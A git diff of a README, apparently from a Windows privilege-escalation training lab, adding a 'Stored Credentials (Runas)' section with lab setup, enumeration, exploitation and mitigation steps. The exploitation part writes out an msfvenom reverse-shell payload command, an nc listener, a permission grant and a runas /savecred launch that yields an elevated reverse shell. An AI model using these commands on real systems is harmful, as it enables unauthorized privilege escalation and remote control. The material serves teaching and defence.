

Edit Strored Creds (Runas) section

diff --git a/README.md b/README.md
@@ -169,7 +169,7 @@ The installation will be scheduled after you close Visual Studio. When you reope
 
 :warning: If the extension is already pre-installed, please disregard the above steps.
 
-To create a malicious MSI in Visual Studio foolow the below steps:
+To create a malicious MSI in Visual Studio follow the below steps:
 
 1) Open Visual studio, select **Create a new project** and type **installer** into search box. Select the **Setup Wizard** project and click **Next**:
 
@@ -489,6 +489,92 @@ Outcome:
 4) Verify the new stored credentials on Windows Credentials Manager (**Control Panel** > **User Accounts** > **Credential Manager**):
 
 ![Stored-Creds-Verify-New-Windows-Creds](/Pictures/Stored-Creds-Control-Panel-4.png)
+
+##### PowerShell Script Lab Setup
+
+Another way to set up the lab with the 'Stored Credentials (Runas)' scenario is by using the custom PowerShell script named [StoredCredentialsRunas.ps1](/Lab-Setup-Scripts/StoredCredentialsRunas.ps1).
+
+Open a PowerShelll with local Administrator privileges and run the script:
+
+```
+.\StoredCredentialsRunas.ps1
+```
+
+:information_source: Please provide the password generated for the `runas` command.
+
+Outcome:
+
+![Stored-Creds-Tool-Lab-Setup](/Pictures/Stored-Creds-Tool-Lab-Set-Up.png)
+
+#### Enumeration
+
+To perform enumeration, you can open a command prompt and use the following command to enumerate the stored credentials in the Windows Credentials Manager:
+
+```
+cmdkey /list
+```
+
+Outcome:
+
+![Stored-Creds-Enum](/Pictures/Stored-Creds-Enum.png)
+
+#### Exploitaion
+
+To abuse this scenario you should follow these steps:
+
+1) Create with msfvenom a malicous executable file (i.e., nikos.exe):
+
+```
+msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > nikos.exe
+```
+
+2) Transfer the malicious executable file to victim's machine.
+
+3) open a listener from your attacking machine:
+
+```
+nc -lvp 1234
+```
+
+4) Grant full access permissions to all users:
+
+```
+icacls "C:\Windows\Tasks\nikos.exe" /grant Users:F
+```
+
+5) Open a command-prompt with regular user privileges and execute the following command:
+
+```
+runas /savecred /user:WORKGROUP\nickvourd "C:\Windows\Tasks\nikos.exe"
+```
+
+Outcome:
+
+![Stored-Creds-Exploitation-Victim-Side](/Pictures/Stored-Creds-Explotation-1.png)
+
+6) Verify the new reverse shell from your attacking machine:
+
+![Stored-Creds-Exploitation-Attacker-Side](/Pictures/Stored-Creds-Exploitation-2.png)
+
+#### Mitigation
+
+To mitigate stored credentials from Windows Credentials manager. Please follow these steps:
+
+1) Open **Control Panel** and navigate **User Accounts** > **Credential Manager**:
+
+![Stored-Creds-Control-Panel](/Pictures/Stored-Creds-Control-Panel.png)
+
+2) Select **Windows Credentials**, choose your preferred stored credentials, and select the **remove** option:
+
+![Stored-Creds-Remove-Creds](/Pictures/Stored-Creds-Control-Panel-2.png)
+
+3) Select the option "Yes" on the pop-up window:
+
+![Stored-Creds-Remove-Creds-Confirmation](/Pictures/Stored-Creds-Control-Panel-3.png)
+
+4) Verify that the stored credentials have been successfully removed from the Windows Credentials Manager:
+
+![Stored-Creds-Remove-Creds-Verification](/Pictures/Stored-Creds-Control-Panel-5.png)
 
 ### Unquoted Service Path
 
